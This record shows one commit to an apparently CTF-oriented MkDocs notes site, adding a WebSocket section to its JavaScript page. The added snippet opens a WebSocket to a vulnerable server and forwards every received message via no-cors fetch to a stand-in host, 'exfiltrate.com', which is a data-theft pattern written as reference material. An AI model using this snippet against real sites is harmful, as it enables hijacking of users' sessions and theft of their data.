

Before and after one commit to xanhacks/ctf-docs, an MkDocs documentation site: the page built from docs/programming/javascript.md, in a window 1280 px wide and 900 px high, scrolled down 2201 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; before the commit the page ends 2632 px from its top, so only the background shows below that.

Commit message:
add JS ws

````diff
--- a/docs/programming/javascript.md
+++ b/docs/programming/javascript.md
@@ -114,3 +114,26 @@ xhr.send(JSON.stringify(data));
   The XMLHttpRequest.withCredentials (`xhr.withCredentials = true;`) property is a boolean value that indicates whether or not cross-site Access-Control requests should be made using credentials such as cookies, authorization headers or TLS client certificates. Setting withCredentials has no effect on same-site requests.
 
 > More information on [developer.mozilla.org](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest).
+
+## WebSocket
+
+### Receiving and sending data
+
+```js
+let ws = new WebSocket("wss://vulnerable-server.com/chat");
+
+ws.onopen = (event) => {
+  ws.send("READY")
+};
+
+ws.onmessage = (event) => {
+  fetch('https://exfiltrate.com', {
+  	method: 'POST',
+	mode: 'no-cors',
+	headers: {
+		'Content-Type': 'application/json'
+	},
+  	body: event.data
+  });
+}
+```
````
